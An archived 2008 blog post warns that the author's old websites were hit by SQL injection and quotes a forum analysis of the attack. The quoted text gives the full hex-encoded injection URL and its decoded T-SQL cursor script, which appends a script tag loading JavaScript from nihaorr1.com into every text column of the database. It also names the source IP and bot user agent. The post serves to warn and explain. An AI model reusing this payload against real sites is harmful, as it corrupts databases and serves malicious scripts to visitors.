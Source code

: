 ```yaml
---
title: Work sites attacked
author: alan
type: post
date: 2008-04-21T17:20:49+00:00
url: /2008/04/21/work-sites-attacked/
categories:
  - geek

---
```

Just an FYI &#8211; some of our old sites are not filtering out injection

attacks and got hosed last weekend. The attack seems fairly

sophisticated (imo) and is described in [this post][1].

> orderitem.asp?IT=GM-204;DECLARE%20@S%20NVARCHAR(4000);SET%20@S=CAST(0x4400450043004C0041005200450020004000540020007600610072006300680061007200280032003500350029002C004000

> 4300200076006100720063006800610072002800320035003500290020004400450043004C0041005200450020005400610062006C0065005F0043007500720073006F0072002000430055

> 00520053004F005200200046004F0052002000730065006C00650063007400200061002E006E0061006D0065002C0062002E006E0061006D0065002000660072006F006D00200073007900

> 73006F0062006A006500630074007300200061002C0073007900730063006F006C0075006D006E00730020006200200077006800650072006500200061002E00690064003D0062002E0069

> 006400200061006E006400200061002E00780074007900700065003D00270075002700200061006E0064002000280062002E00780074007900700065003D003900390020006F0072002000

> 62002E00780074007900700065003D003300350020006F007200200062002E00780074007900700065003D0032003300310020006F007200200062002E00780074007900700065003D0031

> 0036003700290020004F00500045004E0020005400610062006C0065005F0043007500720073006F00720020004600450054004300480020004E004500580054002000460052004F004D00

> 200020005400610062006C0065005F0043007500720073006F007200200049004E0054004F002000400054002C004000430020005700480049004C00450028004000400046004500540043

> 0048005F005300540041005400550053003D0030002900200042004500470049004E00200065007800650063002800270075007000640061007400650020005B0027002B00400054002B00

> 27005D00200073006500740020005B0027002B00400043002B0027005D003D0072007400720069006D00280063006F006E007600650072007400280076006100720063006800610072002C

> 005B0027002B00400043002B0027005D00290029002B00270027003C0073006300720069007000740020007300720063003D0068007400740070003A002F002F007700770077002E006E00

> 6900680061006F007200720031002E0063006F006D002F0031002E006A0073003E003C002F007300630072006900700074003E0027002700270029004600450054004300480020004E0045

> 00580054002000460052004F004D00200020005400610062006C0065005F0043007500720073006F007200200049004E0054004F002000400054002C0040004300200045004E0044002000

> 43004C004F005300450020005400610062006C0065005F0043007500720073006F00720020004400450041004C004C004F00430041005400450020005400610062006C0065005F00430075

> 00720073006F007200%20AS%20NVARCHAR(4000));EXEC(@S);&#8211;
>
> If you just copy the hex value from this URL, as this&#8230;
>
> 0x4400450043004C0041005200450020004000540020007600610072006300680061007200280032003500350029002C004000430020007600610072006300680061007200280032003500

> 3500290020004400450043004C0041005200450020005400610062006C0065005F0043007500720073006F007200200043005500520053004F005200200046004F0052002000730065006C

> 00650063007400200061002E006E0061006D0065002C0062002E006E0061006D0065002000660072006F006D0020007300790073006F0062006A006500630074007300200061002C007300

> 7900730063006F006C0075006D006E00730020006200200077006800650072006500200061002E00690064003D0062002E0069006400200061006E006400200061002E0078007400790070

> 0065003D00270075002700200061006E0064002000280062002E00780074007900700065003D003900390020006F007200200062002E00780074007900700065003D003300350020006F00

> 7200200062002E00780074007900700065003D0032003300310020006F007200200062002E00780074007900700065003D00310036003700290020004F00500045004E0020005400610062

> 006C0065005F0043007500720073006F00720020004600450054004300480020004E004500580054002000460052004F004D00200020005400610062006C0065005F004300750072007300

> 6F007200200049004E0054004F002000400054002C004000430020005700480049004C004500280040004000460045005400430048005F005300540041005400550053003D003000290020

> 0042004500470049004E00200065007800650063002800270075007000640061007400650020005B0027002B00400054002B0027005D00200073006500740020005B0027002B0040004300

> 2B0027005D003D0072007400720069006D00280063006F006E007600650072007400280076006100720063006800610072002C005B0027002B00400043002B0027005D00290029002B0027

> 0027003C0073006300720069007000740020007300720063003D0068007400740070003A002F002F007700770077002E006E006900680061006F007200720031002E0063006F006D002F00

> 31002E006A0073003E003C002F007300630072006900700074003E0027002700270029004600450054004300480020004E004500580054002000460052004F004D00200020005400610062

> 006C0065005F0043007500720073006F007200200049004E0054004F002000400054002C0040004300200045004E004400200043004C004F005300450020005400610062006C0065005F00

> 43007500720073006F00720020004400450041004C004C004F00430041005400450020005400610062006C0065005F0043007500720073006F007200
>
> And convert this to ASCII value, u can convert hex to ASCII
>
> I got this&#8230;
>
> DECLARE @T varchar(255)&#8217;@C varchar(255) DECLARE Table_Cursor CURSOR FOR

> select a.name&#8217;b.name from sysobjects a&#8217;syscolumns b where a.id=b.id and

> a.xtype=&#8217;u&#8217; and (b.xtype=99 or b.xtype=35 or b.xtype=231 or

> b.xtype=167) OPEN Table\_Cursor FETCH NEXT FROM Table\_Cursor INTO @T&#8217;@C

> WHILE(@@FETCH_STATUS=0) BEGIN exec(&#8216;update ['+@T+'] set

> ['+@C+']=rtrim(convert(varchar&#8217;['+@C+']))+&#8221;&lt;script

> src=nihaorr1.com/1.js&gt;&lt;/script&gt;&#8221;&#8217;)FETCH NEXT FROM

> Table\_Cursor INTO @T&#8217;@C END CLOSE Table\_Cursor DEALLOCATE Table_Cursor
>
> SQL Server Injection!!!! Here you can see the script being inserted

> using Table Cursors, to each column in the table. If you read the code

> you can see how each table in the entire database will be affected from

> this.
>
> The source of this came from 219.153.46.28,

> 28.46.153.219.broad.cq.cq.dynamic.163data.com.cn, the Agent is Indy

> Library a CHINESE Bot. The agent Indy Library should be blocked entirly.

our attacks were similar and also coming from [219.153.46.28]

&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8211;

if you&#8217;ve got crappy/insecure code out there &#8211; be warned


 [1]: http://www.webhostingtalk.com/showthread.php?p=5068216

